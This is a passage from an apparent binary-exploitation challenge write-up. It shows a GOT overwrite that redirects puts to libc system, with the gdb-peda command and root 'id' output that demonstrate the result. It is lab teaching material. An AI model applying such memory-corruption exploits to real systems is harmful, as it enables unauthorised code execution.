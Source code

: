 
## Exploit

We want to have this:
```
GOT                   Points to
0x601020 (system)     0x00007ffff7a53380 (__libc_system)
0x601018 (puts)       0x00007ffff7a53380 (__libc_system)
```

The exploit is simple. Write `0x00007ffff7a53380` to memory address `0x601018`:
```
gdb-peda$ r 0x00007ffff7a53380 0x601018
Starting program: /root/challenges/challenge52/challenge52 0x00007ffff7a53380 0x601018
Start
uid=0(root) gid=0(root) groups=0(root)
[Inferior 2 (process 22261) exited normally]
Warning: not running or target is remote
```

Success! Instead of printing the string `"id"`, it got executed (output `"uid=0(root)..."`)


## Challenges
